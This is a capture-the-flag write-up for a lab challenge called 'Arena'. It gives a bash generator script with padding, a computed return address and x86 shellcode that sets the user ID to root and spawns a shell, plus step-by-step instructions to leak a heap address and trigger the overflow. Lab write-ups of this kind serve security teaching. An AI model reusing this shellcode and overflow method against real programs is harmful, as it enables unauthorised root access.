 
# CTF 6 - Arena

## SETUP

1. Deploy your challenge instance
1. Open ***2 Terminals*** and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. Create an empty weapon file

    ```bash
    touch weapons
    ```

1. Create a file called "gen_weapon"

    ```bash
    vi gen_weapons
    ```

1. Copy the following code into "gen_weapon"

    ```bash
    if [ $# -eq 0 ]; then
        echo "Usage: $0 <hex_address>"
        exit 1
    fi

    hex_address="$1"
    
    hex_address="${hex_address#0x}"

    hex_address=$(printf "%x\n" $((16#${hex_address} + 4)))

    if [ ${#hex_address} -eq 7 ]; then
        hex_address="0${hex_address}"
    fi


    little_endian=""
    for ((i = ${#hex_address} - 2; i >= 0; i -= 2)); do
        little_endian="${little_endian}\x${hex_address:i:2}"
    done

    padding_length=8186

    shellcode="\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"

    padding=$(printf 'A%.0s' $(seq "$padding_length"))

    exploit_string="98 99 $padding$little_endian$shellcode"

    echo -e "$exploit_string" > weapons
    ```

## ATTACK

1. In **Terminal 1** run the ***arena*** program

    ```bash
    ./arena/arena weapons
    ```

1. Copy paste the content of **[`player`](players)** in the terminal to create 1251 players.

    You will get the following message containing an ***address***.

    > Too many players... Kicking player '{name_of_the_player}' (0x923f470)

1. In **Terminal 2** run gen_weapons with the previous address

    ```bash
    bash gen_weapons 0x923f470
    ```

1. Then in **Terminal 1**:

    1. Press 1 to load weaponry

        ```bash
        What do you want to do? (1: load weaponry, 2: add new player, 3: fight, 4: quit) 1

        1 weapons loaded!
        ```

    1. Press 3 to start the fight. The figh migh end without popping the shell. In this case press 3 again to start the fight until the shell appear

    Once you get the shell, you can cat the flag

    ```console
    # cat arena/flag
    ```
